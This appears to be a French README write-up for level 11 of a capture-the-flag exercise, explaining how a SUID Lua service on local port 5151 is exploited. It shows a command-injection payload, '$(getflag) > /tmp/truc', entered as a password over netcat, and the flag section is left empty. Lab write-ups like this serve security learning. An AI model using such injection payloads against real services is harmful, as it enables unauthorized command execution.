 # Level11

[ENGLISH version](README_EN.md)

## Comment obtenir le flag

Le fichier présent est un fichier Lua.

Le fichier possède un bit SUID, nous pourrions donc l'exploiter.

Il y a un hachage sha1 à l'intérieur, mais c'est un faux chemin ; le décryptage de son contenu ne fait que le dire : NotSoEasy (https://www.dcode.fr/sha1-hash)

Nous pouvons créer une injection de code

Tout d'abord, nous devons nous connecter :

```
nc 127.0.0.1 5151
```

et lorsque le mot de passe est demandé, taper : 

```
$(getflag) > /tmp/truc
```

alors,

```
cat /tmp/truc
```

Le fichier contient un jeton pour se connecter au flag11

## Le drapeau

```

```

Nous pouvons utiliser ce jeton pour nous connecter à flag11, et lancer getflag pour accéder au niveau12
